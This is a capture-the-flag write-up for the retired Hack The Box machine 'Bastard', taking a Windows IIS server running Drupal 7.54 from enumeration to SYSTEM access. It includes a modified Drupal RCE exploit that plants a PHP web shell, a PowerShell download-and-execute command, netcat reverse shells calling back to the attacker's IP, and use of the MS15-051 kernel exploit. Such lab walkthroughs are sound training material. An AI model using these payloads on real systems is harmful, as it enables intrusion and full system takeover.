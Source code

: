 # Bastard

This is the write-up for the box Bastard that got retired at the 16th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.9    bastard.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/bastard.nmap 10.10.10.9
```

```markdown
PORT      STATE SERVICE VERSION
80/tcp    open  http    Microsoft IIS httpd 7.5
|_http-generator: Drupal 7 (http://drupal.org)
| http-methods:
|_  Potentially risky methods: TRACE
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
135/tcp   open  msrpc   Microsoft Windows RPC
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Checking HTTP (Port 80)

As the web server is IIS version 7.5 the OS of the box is most likely Windows Sever 2008 R2 server.

On the web page there is a _Drupal_ installation.
One of the default files of Drupal is the _/CHANGELOG.txt_ where we can find out which version this is. The version is 7.54 which was released on  February 1st 2017.

Looking for exploits for this:
```markdown
searchsploit drupal 7
```

The exploit to use is called _"Drupal 7.x Module Services - Remote Code Execution"_ which is a **PHP serialization** vulnerability.
We will change some lines in the code to get command execution and file upload and set the variables correctly:
```php
# (...)
$url = 'http://10.10.10.9/';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';

$phpCode = <<<'EOD'
<?php
if (isset($_REQUEST['upload'])) {
        file_put_contents($_REQUEST['upload'], file_get_contents("http://10.10.14.23:8000/" . $_REQUEST['upload']));
};
if (isset($_REQUEST['exec'])) {
        echo "<pre>" . shell_exec($_REQUEST['exec']) . "</pre>";
};
?>
EOD;

$file = [
    'filename' => 'exploit.php',
    'data' => $phpCode
];
# (...)
```

Run the exploit:
```markdown
php5 drupal_exploit.php
```
```markdown
# Output
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9//exploit.php
```

Now when browsing to this page we can test if we have command execution:
```markdown
http://10.10.10.9/exploit.php?exec=whoami
```

It outputs that we are _NT Authority\iusr_.

Now we either have command execution with this method or use the token in the file _session.json_ and replace the cookies with these values and get logged in as Admin:

![Admin page](bastard_adminpage.png)

### Command Execution on HTTP

We should run any enumeration script on this box to get an attack surface. I will run _PowerUP.ps1_ from the **Powersploit Framework** first.

Download the file from my local machine and run it:
```markdown
.../exploit.php?exec=echo IEX(New-Object Net.WebClient).downloadString('http://10.10.14.23:8000/PowerUp.ps1') | powershell -noprofile -
```

Unfortunately there is no interesting information in this output so lets run another enumeration script. I will run [Sherlock](https://github.com/rasta-mouse/Sherlock) now to get some suggestions for vulnerabilities to exploit.

We want to upload _Netcat for Windows_ on this box and execute it to get a reverse shell:
```markdown
/exploit.php?upload=nc64.exe&exec=nc64.exe -e cmd 10.10.14.23 9001
```

After running this our listener on port 9001 starts a reverse shell.

## Privilege Escalation

The enumeration script suggested some exploits to use and I will use **MS15-051 - Win32k LPE vulnerability** also known as _CVE-2015-1701_.
To use this exploit we copy the [Proof-of-Concept script from GitHub](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS15-051) to our local machine and upload and execute it on the box.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe whoami
```

This outputs that we are _NT Authority\SYSTEM_ and thus the exploit works and it is possible to start a shell with this.
```markdown
/exploit.php?upload=ms15-051x64.exe&exec=ms15-051x64.exe "nc64.exe -e cmd 10.10.14.23 9002"
```

After running this our listener on port 9002 starts a reverse shell with the user _NT Authority\SYSTEM_ and the box is done!
